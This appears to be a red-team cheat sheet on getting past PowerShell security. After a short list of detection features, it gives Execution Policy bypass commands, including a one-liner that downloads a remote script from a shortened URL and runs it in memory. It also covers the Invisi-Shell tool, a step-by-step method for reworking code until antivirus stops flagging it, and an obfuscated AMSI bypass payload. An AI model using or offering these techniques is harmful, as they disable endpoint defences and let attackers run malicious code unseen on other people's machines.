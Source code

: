 
### Powershell Detections

1. System-wide Transcription
2. Script Block Logging
3. AntiMalware Scan Interface
4. Constrained language Mode-  integrated with applocker and WDAC



### Ways to bypass   Execution Policy

 View the Execution Policy

~~~
Get-ExecutionPolicy
~~~

To view a list of them use the command

~~~
Get-ExecutionPolicy -List | Format-Table -AutoSize
~~~

Simply ECHO your script into PowerShell standard input. This technique does not result in a configuration change or require writing to disk.

~~~
Echo Write-Host "My voice is my passport, verify me." | PowerShell.exe -noprofile -
~~~

This technique can be used to download a PowerShell script from the internet and execute it without having to write to disk. It also doesn’t result in any configuration changes.

~~~
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/1kEgbuH')"
~~~

Use the “Bypass” Execution Policy Flag

~~~
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
~~~

This similar to the “Bypass” flag. However, when this flag is used Microsoft states that it “Loads all configuration files and runs all scripts. If you run an unsigned script that was downloaded from the Internet, you are prompted for permission before it runs.”

~~~
PowerShell.exe -ExecutionPolicy UnRestricted -File .runme.ps1
~~~

~~~
powershell -ExecutionPolicy bypass
~~~

~~~
$env:PSExecutionPolicyPrefrence="bypass"
~~~

`https://www.netspi.com/blog/entryid/238/15-ways-to-bypass-the-powershell-execution-policy/`

## Bypassing Powershell Security

Using Invisi-Shell

with admin privileges:

~~~
RunWithPathAsAdmin.bat
~~~

with non-admin privileges:

~~~
RunWithPathNonAdmin.bat
~~~


## AMSI  

The Antimalware Scan Interface (AMSI) allows third-party applications with AMSI support to send objects (for example, PowerShell scripts) to Kaspersky Endpoint Security for an additional scan and then receive the results from scanning these objects.


## Bypassing AV signature for Powershell

AMSI:

`https://github.com/RythmStick/AMSITrigger`

Steps:

1. Scan using AMSITrigger
2. Modify the detected code snippet 
3. Rescan using AMSItrigger
4. Repeat the steps 2 & 3 till we get a result as "AMSI_RESULT_NOT_DETECTED" or "Blank"


## AMSI Bypass

~~~
powershell -ep bypass
~~~

~~~
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) (
[TYpE]( "{1}{0}"-F'F','rE' ) ) ;
(
Get-varI`A`BLE (
('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"((
"{6}{3}{1}{4}{2}{0}{5}" - f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'m
ation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -
f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f
('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(
${n`ULl},${t`RuE} )
~~~~


